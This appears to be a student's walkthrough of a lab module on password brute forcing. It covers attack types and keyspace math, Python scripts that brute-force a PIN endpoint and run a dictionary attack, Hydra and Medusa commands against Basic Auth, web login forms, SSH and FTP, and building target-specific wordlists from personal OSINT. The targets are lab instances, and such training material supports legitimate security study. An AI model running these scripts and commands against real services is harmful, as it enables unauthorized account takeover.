


# 1- Introduction
## What is Brute Forcing?

- **Brute Forcing**: This is a trial-and-error attack method used to crack credentials like passwords by systematically trying every possible combination until the correct one is found. The attack's success is influenced by password complexity, the attacker's computing power, and security measures like account lockouts.
## How Brute Forcing Works



## Types of Brute Forcing

| Method                  | Description                                                                                                                   |
| ----------------------- | ----------------------------------------------------------------------------------------------------------------------------- |
| Simple Brute Force      | Systematically tries all possible combinations of characters within a defined character set and length range.                 |
| Dictionary Attack       | Uses a pre-compiled list of common words, phrases, and passwords.                                                             |
| Hybrid Attack           | Combines elements of simple brute force and dictionary attacks, often appending or prepending characters to dictionary words. |
| Credential Stuffing     | Leverages leaked credentials from one service to attempt access to other services, assuming users reuse passwords.            |
| Rainbow Table Attack    | Uses pre-computed tables of password hashes to reverse hashes and recover plaintext passwords quickly.                        |
| Reverse Brute Force     | Targets a single password against multiple usernames, often used in conjunction with credential stuffing attacks.             |
| Distributed Brute Force | Distributes the brute forcing workload across multiple computers or devices to accelerate the process.                        |
| Password Spraying       | Attempts a small set of commonly used passwords against a large number of usernames.                                          |


# 2- Brute Force Attacks

To truly grasp the challenge of brute forcing, it's essential to understand the underlying mathematics. The following formula determines the total number of possible combinations for a password:

`Possible Combinations = Character Set Size^Password Length`

Let's consider a few scenarios to illustrate the impact of password length and character set on the search space:

|                           | Password Length | Character Set                                         | Possible Combinations               |
| ------------------------- | --------------- | ----------------------------------------------------- | ----------------------------------- |
| `Short and Simple`        | 6               | Lowercase letters (a-z)                               | 26^6 = 308,915,776                  |
| `Longer but Still Simple` | 8               | Lowercase letters (a-z)                               | 26^8 = 208,827,064,576              |
| `Adding Complexity`       | 8               | Lowercase and uppercase letters (a-z, A-Z)            | 52^8 = 53,459,728,531,456           |
| `Maximum Complexity`      | 12              | Lowercase and uppercase letters, numbers, and symbols | 94^12 = 475,920,493,781,698,549,504 |
## Cracking the PIN

We will use this simple demonstration Python script to brute-force the `/pin` endpoint on the API. Copy and paste this Python script below as `pin-solver.py` onto your machine. You only need to modify the IP and port variables to match your target system information.

```
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

we only need to modify the ip address and the port .
### Question 1
---
#### After successfully brute-forcing the PIN, what is the full flag the script returns?



Done.
## Dictionary Attacks

While comprehensive, the brute-force approach can be time-consuming and resource-intensive, especially when dealing with complex passwords. That's where dictionary attacks come in.

### Building and Utilizing Wordlists

Wordlists can be obtained from various sources, including:

- `Publicly Available Lists`: The internet hosts a plethora of freely accessible wordlists, encompassing collections of commonly used passwords, leaked credentials from data breaches, and other potentially valuable data. Repositories like [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords) offer various wordlists catering to various attack scenarios.
- `Custom-Built Lists`: Penetration testers can craft their wordlists by leveraging information gleaned during the reconnaissance phase. This might include details about the target's interests, hobbies, personal information, or any other data for password creation.
- `Specialized Lists`: Wordlists can be further refined to target specific industries, applications, or even individual companies. These specialized lists increase the likelihood of success by focusing on passwords that are more likely to be used within a particular context.
- `Pre-existing Lists`: Certain tools and frameworks come pre-packaged with commonly used wordlists. For instance, penetration testing distributions like ParrotSec often include wordlists like `rockyou.txt`, a massive collection of leaked passwords, readily available for use.


We will use a simple python script to do the dictionary attack .

```
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

The Python script orchestrates the dictionary attack. It performs the following steps:

1. `Downloads the Wordlist`: First, the script fetches a wordlist of 500 commonly used (and therefore weak) passwords from SecLists using the `requests` library.
2. `Iterates and Submits Passwords`: It then iterates through each password in the downloaded wordlist. For each password, it sends a POST request to the Flask application's `/dictionary` endpoint, including the password in the request's form data.
3. `Analyzes Responses`: The script checks the response status code after each request. If it's 200 (OK), it examines the response content further. If the response contains the "flag" key, it signifies a successful login. The script then prints the discovered password and the captured flag.
4. `Continues or Terminates`: If the response doesn't indicate success, the script proceeds to the next password in the wordlist. This process continues until the correct password is found or the entire wordlist is exhausted.

  

### Question 1
---
### After successfully brute-forcing the target using the script, what is the full flag the script returns?


Done.

# 3- Hydra

Hydra is a fast network login cracker that supports numerous attack protocols. It is a versatile tool that can brute-force a wide range of services, including web applications, remote login services like SSH and FTP, and even databases.

Hydra's popularity stems from its:

- `Speed and Efficiency`: Hydra utilizes parallel connections to perform multiple login attempts simultaneously, significantly speeding up the cracking process.
- `Flexibility`: Hydra supports many protocols and services, making it adaptable to various attack scenarios.
- `Ease of Use`: Hydra is relatively easy to use despite its power, with a straightforward command-line interface and clear syntax.
##### Instalation
```
sudo apt-get -y update 
sudo apt-get -y install hydra
```

## Basic Usage

Hydra's basic syntax is:

```
hydra [login_options] [password_options] [attack_options] [service_options]
```

|Parameter|Explanation|Usage Example|
|---|---|---|
|`-l LOGIN` or `-L FILE`|Login options: Specify either a single username (`-l`) or a file containing a list of usernames (`-L`).|`hydra -l admin ...` or `hydra -L usernames.txt ...`|
|`-p PASS` or `-P FILE`|Password options: Provide either a single password (`-p`) or a file containing a list of passwords (`-P`).|`hydra -p password123 ...` or `hydra -P passwords.txt ...`|
|`-t TASKS`|Tasks: Define the number of parallel tasks (threads) to run, potentially speeding up the attack.|`hydra -t 4 ...`|
|`-f`|Fast mode: Stop the attack after the first successful login is found.|`hydra -f ...`|
|`-s PORT`|Port: Specify a non-default port for the target service.|`hydra -s 2222 ...`|
|`-v` or `-V`|Verbose output: Display detailed information about the attack's progress, including attempts and results.|`hydra -v ...` or `hydra -V ...` (for even more verbosity)|
|`service://server`|Target: Specify the service (e.g., `ssh`, `http`, `ftp`) and the target server's address or hostname.|`hydra ssh://192.168.1.100`|
|`/OPT`|Service-specific options: Provide any additional options required by the target service.|`hydra http-get://example.com/login.php -m "POST:user=^USER^&pass=^PASS^"` (for HTTP form-based authentication)|

## Basic HTTP Authentication

Web applications often employ authentication mechanisms to protect sensitive data and functionalities. Basic HTTP Authentication, or simply `Basic Auth`, is a rudimentary yet common method for securing resources on the web. Though easy to implement, its inherent security vulnerabilities make it a frequent target for brute-force attacks.

## Exploiting Basic Auth with Hydra

### Question1
--- 
#### After successfully brute-forcing, and then logging into the target, what is the full flag you find?


**1. Confirm the target is protected**

Requesting the resource without credentials returns a `401 Unauthorized`, confirming Basic Auth is in place:



**2. Brute-force the password**

Username is already known (`basic-auth-user`), so only the password needs to be brute-forced. Hydra's `http-get` module is used against the custom port:



Hydra returns a valid password from the wordlist.

**3. Authenticate and retrieve the content**
With valid credentials, `curl -u` can authenticate directly instead of relying on a browser prompt:


 Done.

##  Login Forms

While login forms may appear as simple boxes soliciting your username and password, they represent a complex interplay of client-side and server-side technologies. At their core, login forms are essentially HTML forms embedded within a webpage. These forms typically include input fields (`<input>`) for capturing the username and password, along with a submit button (`<button>` or `<input type="submit">`) to initiate the authentication process.


### A Basic Login Form Example

Most login forms follow a similar structure. Here's an example:

```
<form action="/login" method="post">   
<label for="username">Username:</label>   
<input type="text" id="username" name="username"><br><br>  
<label for="password">Password:</label>   
<input type="password" id="password" name="password"><br><br>   
<input type="submit" value="Submit"> 
</form>`
```

This form, when submitted, sends a POST request to the `/login` endpoint on the server, including the entered username and password as form data.

```
POST /login HTTP/1.1 
Host: www.example.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 29  
username=john&password=secret123
```

For this example we have this form that we have to brute force to get the flag.


### Browser Developer Tools

After inspecting the form, open your browser's Developer Tools (F12) and navigate to the "Network" tab. Submit a sample login attempt with any credentials. This will allow you to see the POST request sent to the server. In the "Network" tab, find the request corresponding to the form submission and check the form data, headers, and the server’s response.

This information further solidifies the information we will need for Hydra. We now have definitive confirmation of both the target path (`/`) and the parameter names (`username` and `password`).

so we just type this command andd we get the valid credentials.
```
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP-ADDR -s PORT http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```



Then we can simply access and get the flag.



Done.
# 4- Medusa

Medusa is a popular and powerful cybersecurity tool used to test the strength of login systems. It works as a high-speed, "massively parallel" brute-forcer, meaning it can try many different username and password combinations at the same time. Its "modular" design allows it to be easily configured to attack a wide variety of services that require a login, like SSH, FTP, or web forms.

## Command Syntax and Parameter Table

```
medusa [target_options] [credential_options] -M module [module_options]
```

| Parameter                  | Explanation                                                                                                                              |
| -------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| `-h HOST` or `-H FILE`     | Target options: Specify either a single target hostname or IP address (`-h`) or a file containing a list of targets (`-H`).              |
| `-u USERNAME` or `-U FILE` | Username options: Provide either a single username (`-u`) or a file containing a list of usernames (`-U`).                               |
| `-p PASSWORD` or `-P FILE` | Password options : same as username                                                                                                      |
| `-M MODULE`                | Module: Define the specific module to use for the attack (e.g., `ssh`, `ftp`, `http`).                                                   |
| `-t TASKS`                 | Tasks: Define the number of parallel login attempts to run, potentially speeding up the attack.                                          |
| `-n PORT`                  | Port: Specify a non-default port for the target service.                                                                                 |
| `-v LEVEL`                 | Verbose output: Display detailed information about the attack's progress. The higher the `LEVEL` (up to 6), the more verbose the output. |


## Web Services.

## Question 1
---
### What was the password for the ftpuser?

The first thing to do is to brute-force the ssh session to get the password.
we use this command 

```
medusa -h IP-ADDR -n PORT -u sshuser -P 2023-200_most_used_passwords.txt -M ssh
```




so we log into the ssh and we have to run this command to brute-force the ftp service.




 and its done we get the password for the ftp.
 Then we use this command to login `ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost`
 
 Done.


#  5- Custom Wordlists
## Username Anarchy
**Purpose:** Generates a wide range of plausible username variations from a target's first/last name, useful for building brute-force wordlists during recon/enumeration.

**Why it matters:** Manual guessing (e.g. `jane`, `smith`, `janesmith`) only covers obvious cases. Real usernames often include middle names, birth years, hobbies, leetspeak substitutions, or fandom references — patterns too broad to guess by hand but well-covered by this tool's permutation logic.

**Installation:**

bash

```bash
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
```

**Usage:**

bash

```bash
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

## CUPP (Common User Passwords Profiler) — Summary

**Purpose:** Builds a personalized password wordlist for a specific target, based on OSINT gathered about them (as opposed to generic dictionaries).

**Key idea:** The more personal intel you feed it, the more likely the generated list contains the real password — similar logic to Username Anarchy, but for passwords instead of usernames.

**Where to gather target intel:**

- Social media (birthdays, pets, partners, hobbies)
- Company websites (role, bio)
- Public records
- News/blogs

**Installation:**

bash

```bash
sudo apt install cupp -y
```

**Usage (interactive mode):**

bash

```bash
cupp -i
```

  

## Question 1
---
### After successfully brute-forcing, and then logging into the target, what is the full flag you find?

The first thing to do is to generate the wordlist.

Then we have to create the passwords list.


As we did earlier, we can use grep to filter that password list to match that policy:

```
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

Last thing to do is to execute the hydra command.


we have the credentials so we go to the form and we get the flag

Done.

# 6- Skills Assessment



We have to brute force this to get the first question.

We simply use this commande :

`hydra -L top-usernames-shortlist.txt  -P 2023-200_most_used_passwords.txt IP-ADDR http-get / -s PORT `


So we have the valid credentials we can login and get the answer of the seconde question.





The first thing to do is to scan the target.

We see that its a SSH service.
So we have to use hydre with the username discovred in the privious section with the password list we downloaded earlier.

